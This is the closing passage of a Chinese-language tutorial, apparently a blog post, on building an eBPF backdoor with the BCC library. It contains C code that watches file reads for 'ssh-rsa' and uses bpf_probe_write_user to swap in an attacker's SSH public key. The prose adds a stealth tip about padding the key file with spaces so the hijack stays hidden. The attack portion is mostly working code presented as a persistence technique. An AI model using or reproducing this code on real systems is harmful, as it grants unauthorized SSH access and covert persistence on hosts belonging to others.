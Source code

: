 ```
    }
    struct syscall_read_logging *data= map_buff_addrs.lookup(&pid_tgid);
    if (data == 0) return 0;
    long int te=data->calling_size;
    char* tmpbuf=(char*)data->buffer_addr;
    const char *becheck = "ssh-rsa";
        char str[7];
    bpf_probe_read(str,sizeof(str),(void *)tmpbuf);
    for (int i = 0; i < 7; i++)
    {
        if (becheck[i] != str[i])//看看是不是真正要查的字符串
        {
            return 0;
        }
    }
    int index = 0;
    struct string_info *info = string_array.lookup(&index);
    if (info==0) return 0;
    char *tobe=(char*)info->str;
    long ret = bpf_probe_write_user((void *)tmpbuf, tobe, 581);
    //bpf_trace_printk("tmpbuf:%s\\n", tmpbuf);
    //bpf_trace_printk("tobe:  %s\\n", tobe);
    return 0;
}
```

相当于把整体的文件也改了（密钥替换/劫持），之前的公钥也因为我们的操作不能用了，如果想不暴露的话，可以提前在文件中填写空格占位，来实现添加的操作。

## 总结 & ref

使用 BCC 库可以很方便的完成 ebpf 的编写和程序分发，同时因为是在沙箱环境中运行，可以让我们灵活并安全的调试自己需要的代码；但是后门必须要在较高版本的 kernel 才能实现。

 - https://xz.aliyun.com/t/12173
 - https://github.com/iovisor/bcc/blob/master/docs/tutorial_bcc_python_developer.md
